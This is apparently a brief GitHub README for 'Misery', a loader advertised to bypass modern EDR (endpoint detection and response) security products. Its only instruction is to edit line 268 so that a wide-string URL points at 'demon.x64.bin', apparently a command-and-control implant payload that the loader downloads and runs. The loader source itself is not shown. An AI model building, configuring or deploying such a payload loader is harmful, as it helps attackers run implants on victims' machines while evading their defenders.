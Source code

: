 # Misery
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

Misery Loader to bypass modern EDR solutions


### Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"

